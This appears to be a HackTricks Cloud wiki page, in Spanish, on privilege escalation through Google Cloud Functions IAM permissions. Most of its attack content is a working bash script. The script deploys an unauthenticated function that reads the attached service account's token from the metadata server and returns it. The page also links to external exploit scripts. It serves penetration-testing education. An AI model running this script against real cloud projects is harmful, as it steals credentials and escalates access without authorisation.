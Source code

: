 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Más información sobre Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un atacante con estos privilegios puede **crear una nueva Cloud Function con código arbitrario (malicioso) y asignarle una Service Account**. Luego, filtrar el token de la Service Account desde los metadatos para escalar privilegios a ella.\
Algunos privilegios para activar la función pueden ser requeridos.

Los scripts de explotación para este método se pueden encontrar [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) y [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) y el archivo .zip preconstruido se puede encontrar [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un atacante con estos privilegios puede **modificar el código de una Function e incluso modificar la cuenta de servicio adjunta** con el objetivo de exfiltrar el token.

{% hint style="danger" %}
Para desplegar funciones en la nube también necesitarás permisos actAs sobre la cuenta de servicio de cómputo predeterminada o sobre la cuenta de servicio que se utiliza para construir la imagen.
{% endhint %}

Algunos privilegios adicionales como el permiso `.call` para la versión 1 de cloudfunctions o el rol `role/run.invoker` para activar la función pueden ser requeridos.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Si obtienes el error `Permission 'run.services.setIamPolicy' denied on resource...` es porque estás usando el parámetro `--allow-unauthenticated` y no tienes suficientes permisos para ello.
{% endhint %}

El script de explotación para este método se puede encontrar [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Con este permiso puedes obtener una **URL firmada para poder subir un archivo a un bucket de función (pero el código de la función no se cambiará, aún necesitas actualizarlo)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

No estoy realmente seguro de cuán útil es solo este permiso desde la perspectiva de un atacante, pero es bueno saberlo.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Dáte cualquiera de los privilegios anteriores **`.update`** o **`.create`** para escalar.

### `cloudfunctions.functions.update`

Solo tener permisos de **`cloudfunctions`**, sin **`iam.serviceAccounts.actAs`**, **no podrás actualizar la función ASÍ QUE ESTO NO ES UNA ESCALADA DE PRIVILEGIOS VÁLIDA.**

### Acceso de Lectura y Escritura sobre el bucket

Si tienes acceso de lectura y escritura sobre el bucket, puedes monitorear cambios en el código y cada vez que **ocurra una actualización en el bucket, puedes actualizar el nuevo código con tu propio código** con el que se ejecutará la nueva versión de la Cloud Function con el código backdoored enviado.

Puedes consultar más sobre el ataque en:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Sin embargo, no puedes usar esto para pre-comprometer Cloud Functions de terceros porque si creas el bucket en tu cuenta y le das permisos públicos para que el proyecto externo pueda escribir sobre él, obtienes el siguiente error:

<figure><img src="../../../.gitbook/assets/image (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Sin embargo, esto podría usarse para ataques DoS.
{% endhint %}

### Acceso de Lectura y Escritura sobre Artifact Registry

Cuando se crea una Cloud Function, se envía una nueva imagen de docker al Artifact Registry del proyecto. Intenté modificar la imagen con una nueva, e incluso eliminar la imagen actual (y la imagen `cache`) y nada cambió, la Cloud Function continuó funcionando. Por lo tanto, tal vez **podría ser posible abusar de un ataque de Condición de Carrera** como con el bucket para cambiar el contenedor de docker que se ejecutará, pero **solo modificando la imagen almacenada no es posible comprometer la Cloud Function**.

## Referencias

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
